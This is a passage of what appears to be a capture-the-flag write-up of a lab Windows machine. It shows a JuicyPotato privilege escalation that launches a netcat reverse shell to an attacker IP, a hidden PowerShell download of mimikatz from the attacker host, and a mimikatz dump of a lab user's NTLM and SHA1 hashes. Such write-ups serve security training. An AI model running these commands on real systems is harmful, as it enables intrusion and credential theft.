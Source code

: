 [Back to top](#contents) ⤴

# Exploiting 

One thing should raise your attention is that **SeImpersonatePrivilege** is set. This is causing a potential vulnerability that can be exploited using JuicyPotato (read more in _Additional readings_ section)

```
echo START C:\inetpub\wwwroot\wordpress\wp-content\plugins\pshield_plugin\nc342as.exe -e powershell.exe 10.10.XX.XXX 9004 > jp52345.bat
.\jp324d.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\plugins\pshield_plugin\jp52345.bat -l 9004 -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```
![3380900278873.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623251252596/RzX2H0MSI.png)

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
6******************************a
```

[Back to top](#contents) ⤴

# Post-exploitation

Because I've got the System access and I know that future boxes can use some credentials from this one - I'm downloading the `mimikatz` to read the logged in `sandra` user.

```
powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command "(New-Object System.Net.WebClient).DownloadFile('http://10.10.XX.XXX/mc231.exe','mc231.exe')"
```

![3284913879648.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623251295188/eVPGYeEMk2.png)

## Read credentials from a memory

```
mimikatz # privilege::debug
Privilege '20' OK
```

Useless information are truncated from below output.

```
mimikatz # sekurlsa::logonpasswords

// ...

Authentication Id : 0 ; 291603 (00000000:00047313)
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 6/7/2021 4:13:28 PM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105
	msv :	
	 [00000003] Primary
	 * Username : sandra
	 * Domain   : MEGACORP
	 * NTLM     : 29ab86c5c4d2aab957763e5c1720486d
	 * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38
	 * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc
	tspkg :	
	wdigest :	
```